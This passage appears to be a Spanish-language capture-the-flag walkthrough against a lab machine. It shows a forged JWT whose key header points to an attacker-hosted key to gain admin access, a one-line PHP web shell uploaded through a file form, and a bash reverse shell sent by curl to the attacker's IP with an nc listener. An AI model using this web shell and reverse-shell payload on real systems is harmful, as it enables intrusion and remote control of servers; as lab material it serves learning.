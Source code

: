 Ahora podemos ir a admin

eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC45OjQ0My9wcml2LmtleSJ9.eyJ1c2VybmFtZSI6ImxvbG8iLCJlbWFpbCI6ImxvbG9AbG9sby5lcyIsImFkbWluX2NhcCI6MX0.H9WMitXHgRuCFA6Ny2t6c9Sy735wPtE-wDQ8ZHzvPXM1eUMwZYbM4IVMw9rbBX6ltNPfrrSoTs0gCRZUxybt0Su0EqKHGISoURGyR4BslaPmLGN0yGGW60Rj66uUjmLDt7vq3RyMZQ8GpMMVLf0ij3xTdqKAROl53FFs0owYZvPrAxBDm_xXmM39jKIZrVCUpiLar9Owr7DrMcoRVmoT_CHQemAHae0Inf1XaKeDp_4FXz0wFELL7q5rFiNr-QrzPceWvYPCl5knbRQW3bEGgdRtlW5CqJZaIk5jv_eH1yy-jnecEn07wNdxzJVd7d-qWLeG7J_ywlkJ1Q7xM_cacA

lolo
lolo
lolo@lolo.es

Bien una vez dentor exploramos de nuevo la web. 

Hay varias cosas interesantes la primera que viene un log de notas en el que entre otras cosas aparece:
  - una historia con un nombre
  - se realiza un backup

La segunda nos deja subir un archivo. Primero subo una imagen , esa imagen se guarda pero cuando entro da fallo.
Ahora subo el php que siempre usamos con el cmd para ver si nos da algún tipo de problemas para entrar.

```bash
<?php system($_REQUEST["cmd"]); ?>
```
Una vez capturamos la entrada cambiamos como siempre por ?cmd=whoami para ver que pasa

![](assets/2022-07-01-19-27-21.png)

No hemos tenido que hacer mucho, por lo que ahora mediante un curl mandaremos la revert shell

Importante mientras creaba la revertshell con el curl ha desapareido mi 

```bash
#antes me pongo en escucha en otra terminal

nc -lnvp 444

bash -c "bash -i >& /dev/tcp/10.10.14.9/443 0>&1

Modificamos el curl básico con revert shell a nuestras especificaciones

curl -s -G http://10.10.10.230/a1ba6293840f8a8fb4d5dda74c98c90a.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.9/444 0>&1'" 
```